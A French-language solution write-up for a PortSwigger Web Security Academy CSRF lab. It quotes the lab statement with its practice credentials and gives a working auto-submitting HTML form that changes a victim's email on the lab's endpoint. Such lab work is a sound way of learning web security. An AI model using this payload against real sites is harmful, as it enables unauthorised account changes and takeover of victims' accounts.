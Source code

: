 # [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)
> Difficulté : Apprentice


## Enoncé :

*This lab's email change functionality is vulnerable to CSRF.
To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
You can log in to your own account using the following credentials: wiener:peter*

<details>
<summary>Hint</summary>
You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.
</details>

## Solution

Nous cherchons à créer un payload réalisant, depuis la session victime, un changement de mail de notre choix.
En utilisant le cours, nous pouvons assez aisément construire le payload suivant, que nous allons mettre dans le Body de notre espace du lab avant de "Deliver exploit to victim".
```
<form method="POST" action="https://<lab_id>.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="t@t.com">
</form>
<script>
    document.forms[0].submit();
</script>
```
